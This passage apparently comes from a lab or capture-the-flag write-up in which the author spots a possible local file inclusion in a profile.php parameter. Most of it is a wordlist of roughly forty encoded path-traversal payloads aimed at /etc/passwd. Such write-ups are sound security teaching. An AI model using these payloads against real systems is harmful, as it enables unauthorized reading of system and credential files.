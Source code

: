 
We got `profile.php`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250502225430.png)

Seems like we need a parameter, if we check source code of the dashboard, we can see the following:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250502225353.png)


We can now see the way it must be formatted, let's submit the request to our proxy to check it better:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250502225636.png)

The structure of the URL may be vulnerable to LFI, let's send this to `Automate` and send some `LFI payloads`, I used the following wordlist:

```txt
%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252fetc%252fpasswd
%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2E%2E/%2E%2E/etc/passwd
..%255c..%255cetc%255cpasswd
%2e%2e%2f..%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252f..%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
..%255c..%255c..%255cetc%255cpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%255c..%255c..%255c..%255cetc%255cpasswd
%2e%2e%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%255c..%255c..%255c..%255c..%255cetc%255cpasswd
%2e%2e%2f..%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%255c..%255c..%255c..%255c..%255c..%255cetc%255cpasswd
```